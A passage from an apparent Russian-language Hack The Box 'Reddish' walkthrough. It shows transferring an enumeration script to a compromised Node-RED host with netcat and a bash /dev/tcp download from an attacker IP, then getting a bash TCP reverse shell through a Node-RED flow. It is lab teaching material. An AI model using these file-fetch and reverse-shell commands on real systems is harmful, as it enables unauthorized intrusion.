 Испытаем этот поток в деле: я запускаю `nc` на Kali с указанием передать скрипт для проведения локальной разведки на Linux [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) (который я начал использовать вместо привычного [LinEnum.sh](https://github.com/rebootuser/LinEnum)), дожидаюсь окончания загрузки и проверяю контрольные суммы обоих копий.

На Kali:

```
root@kali:~# nc -lvnp 8889 < lse.sh
...
root@kali:~# md5sum lse.sh
7d3a4fe5c7f91692885bbeb631f57c70  lse.sh
```

![web-node-red-file-upload-ex.png](/assets/images/htb/machines/reddish/web-node-red-file-upload-ex.png)
{:.center-image}

На Node-RED:

```
root@nodered:/tmp# md5sum .file
7d3a4fe5c7f91692885bbeb631f57c70  .file
```

**Загрузка файлов из командной строки**

Откровенно говоря, такой подход к трансферу файлов избыточен, ведь всю процедуру можно провести, не отходя от терминала.

```
root@kali:~# nc -w3 -lvnp 8889 < lse.sh
root@nodered:~# bash -c 'cat < /dev/tcp/10.10.14.19/8889 > /tmp/.file'
```

### reverse-shell

Я не был доволен тем шеллом, который был построен из абстракций Node-RED (некорректно читались некоторые символы, и вообще вся эта конструкция выглядела очень ненадежно), поэтому я получил полноценный Reverse Shell.

![nodered-reverse-shell.png](/assets/images/htb/machines/reddish/nodered-reverse-shell.png)
{:.center-image}

Сперва я сделал это, как показано выше — путем открытия еще одного порта в новой вкладки терминала и вызовом [реверс-шелла](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) на Bash по TCP. Однако позже я решил упростить себе жизнь на случай, если придется перезапускать сессию, и собрал такой флоу в Node-RED ([JSON](https://github.com/snovvcrash/xakepru/blob/master/htb-reddish/node-red/reverse-shell.json)).

![web-node-red-reverse-shell.png](/assets/images/htb/machines/reddish/web-node-red-reverse-shell.png)
{:.center-image}

Обрати внимание, что я завернул пейлоад для реверс-шелла в дополнительную оболочку Bash `bash -c '<PAYLOAD>'`. Это сделано для того, чтобы команда была выполнена именно итерпретатором Bash, так как дефолтный шелл на этом хосте — [dash](https://ru.wikipedia.org/wiki/Debian_Almquist_shell).
